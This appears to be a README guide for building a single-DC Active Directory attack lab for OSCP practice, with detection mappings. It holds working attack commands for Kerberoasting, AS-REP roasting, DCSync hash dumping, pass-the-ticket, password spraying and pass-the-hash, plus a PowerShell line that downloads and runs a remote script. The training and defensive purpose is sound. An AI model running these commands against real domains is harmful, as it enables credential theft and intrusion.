

# AD Attack Lab — single-DC build (OSCP prep)

A repeatable Active Directory (AD) attack lab on VirtualBox: one Windows Server
Domain Controller (DC) made intentionally vulnerable, attacked from Kali. Covers
**Kerberoasting, AS-REP roasting, DCSync, and TGT abuse**. Built by ShabangTech.

> **Acronyms:** AD = Active Directory · DC = Domain Controller · AD DS = AD Domain
> Services (the server role) · SPN = Service Principal Name · TGT/TGS = Ticket
> Granting Ticket / Service · NTLM = NT LAN Manager hash · eval = evaluation.

## Honest scope

One DC + Kali **fits 16 GB** (keep the host lean). This lab does everything on your
list **except lateral movement** — that needs a *second* Windows host to pivot to,
which pushes you to 2 Windows VMs + Kali (over 16 GB). Do lateral movement in
**AWS/cloud** (Terraform it — plays to your strengths) or on HTB/TryHackMe/Proving
Grounds. This guide gets you the single-DC technique drills locally.

## Topology



DC gets NAT **only during setup** (updates + vuln script), then lives on an isolated
**Internal Network** with Kali. Nothing touches your real LAN.

---

## Part 1 — Download the ISO

Windows Server 2022 **Evaluation** (free, 180 days):
- Microsoft Evaluation Center → "Windows Server 2022" → ISO (English, 64-bit).
- (2019 is a touch lighter if RAM is tight — same steps.)
- Save it to your D: drive. Tip: download *inside Kali* and `scp`/HTTP it over if
  Windows downloads give you trouble, or just download on Windows directly.

## Part 2 — Create the VM (VirtualBox)

- **Name:** `DC01`, Type **Microsoft Windows**, Version **Windows 2022 (64-bit)**.
- **Store it on D:** (Machine Folder → `D:\VMs`).
- **RAM:** 4096 MB (2048 minimum; AD DS is happier with 4 GB).
- **CPU:** 2 cores.
- **Disk:** 40 GB (dynamically allocated).
- **Network (two adapters):**
  - Adapter 1 → **NAT** (internet for setup).
  - Adapter 2 → **Internal Network**, name it `ad-lab` (the attack segment).
- **Storage:** attach the Server 2022 ISO to the optical drive.

## Part 3 — Install Windows Server

- Boot the VM, choose **Windows Server 2022 Standard (Desktop Experience)** (the GUI
  version — easier to learn on).
- Custom install → the 40 GB disk → let it run, set an Administrator password.
- After first login, install VirtualBox **Guest Additions** (Devices → Insert Guest
  Additions CD) for a usable screen.

## Part 4 — Promote to a Domain Controller

Open **PowerShell as Administrator** on the server:

```powershell
# static IP on the internal (ad-lab) adapter — adjust the interface name via Get-NetAdapter
New-NetIPAddress -InterfaceAlias "Ethernet 2" -IPAddress 10.10.10.10 -PrefixLength 24
Set-DnsClientServerAddress -InterfaceAlias "Ethernet 2" -ServerAddresses 127.0.0.1

# install the AD DS role and promote to a new forest
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "lab.local" -InstallDNS -Force
```

It reboots and comes up as the DC for **lab.local**, with DNS installed.

## Part 5 — Seed the vulnerabilities

With the DC still on NAT, in **PowerShell as Administrator** on the DC:

```powershell
# vulnerable-AD: creates Kerberoastable SPNs, AS-REP-roastable users, DCSync paths
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/WaterExecute/vulnerable-AD/master/vulnad.ps1"))
Invoke-VulnAD -UsersLimit 50 -DomainName "lab.local"
```
(If that fork moves, search "vulnerable-AD github" — several maintained forks exist;
the script is tiny and you run it *on* the DC.) Then **switch the DC's Adapter 1 off
NAT** (set it to Internal too, or disable it) so the lab is isolated.

## Part 6 — Point Kali at the lab

- Kali: add/confirm an adapter on the **same Internal Network** (`ad-lab`).
- Give Kali a static IP in the same subnet, DNS = the DC:
```bash
sudo ip addr add 10.10.10.50/24 dev eth1
echo "nameserver 10.10.10.10" | sudo tee /etc/resolv.conf   # resolve lab.local via the DC
ping -c2 10.10.10.10            # reach the DC
```

## Part 7 — Attack from Kali

Tools: **NetExec (`nxc`)**, **impacket** suite, **hashcat**. You usually start with one
low-priv domain credential (grab one from the vuln script output, or assume-breach).

**Kerberoasting** — request service tickets (TGS) for SPN accounts, crack offline:
```bash
impacket-GetUserSPNs lab.local/lowpriv:'Password123' -dc-ip 10.10.10.10 -request -outputfile kerb.hash
hashcat -m 13100 kerb.hash /usr/share/wordlists/rockyou.txt      # 13100 = Kerberos TGS-REP
```

**AS-REP roasting** — users with "no Kerberos pre-auth":
```bash
impacket-GetNPUsers lab.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.10 -format hashcat -outputfile asrep.hash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt     # 18200 = AS-REP
```

**DCSync** — dump password hashes by impersonating a DC (needs a user with replication
rights; the vuln script sets one up):
```bash
impacket-secretsdump lab.local/dcsyncuser:'Password123'@10.10.10.10
```

**TGT abuse** — request and use a Ticket Granting Ticket (Pass-the-Ticket):
```bash
impacket-getTGT lab.local/user:'Password123' -dc-ip 10.10.10.10     # writes user.ccache
export KRB5CCNAME=user.ccache
impacket-psexec -k -no-pass lab.local/user@dc01.lab.local           # use the ticket
```

**Spray/validate creds across the domain** (NetExec):
```bash
nxc smb 10.10.10.10 -u users.txt -p passwords.txt
nxc ldap 10.10.10.10 -u lowpriv -p 'Password123' --kerberoasting kerb.txt
```

## Part 8 — Lateral movement (the part that needs a 2nd host)

Once you have a hash or ticket, lateral movement = reaching *another* machine:
```bash
nxc smb 10.10.10.0/24 -u admin -H <NTLM-hash>          # Pass-the-Hash spray
impacket-psexec -hashes :<NTLM-hash> admin@10.10.10.20  # exec on a target
```
You need a **domain-joined Win10/11 client VM** (10.10.10.20) as the pivot target —
that's the 3rd VM your RAM can't comfortably hold. Build the client in **AWS** or a
cloud lab when you want to practice the full chain.

## Part 9 — Purple-team bonus (ties to your home SOC)

Ship the DC's Security log to `/hsoc/windows/security` (CloudWatch agent, like your
laptop) and write **AD-attack detections**:

| Attack | Detection signal | Windows Event |
|---|---|---|
| Kerberoasting | TGS requests with RC4 encryption (type 0x17) | **4769** |
| AS-REP roasting | TGT requested, pre-auth not required | **4768** |
| DCSync | Directory replication from a non-DC account | **4662** (replication GUID) |

That gives you **attack + detection** for AD — a rare, standout portfolio story, and a
direct extension of your L01 work.

---

## Appendix — attacker toolkit (on Kali)

`nxc` (NetExec) · `impacket-*` (GetUserSPNs, GetNPUsers, secretsdump, getTGT, psexec) ·
`hashcat` · `bloodhound` + `bloodhound.py` (map attack paths) · `kerbrute` (user enum).

## MITRE ATT&CK mapping

Kerberoasting **T1558.003** · AS-REP roasting **T1558.004** · DCSync **T1003.006** ·
Pass-the-Ticket **T1550.003** · Pass-the-Hash **T1550.002** · lateral movement via
SMB/WMI **T1021**.
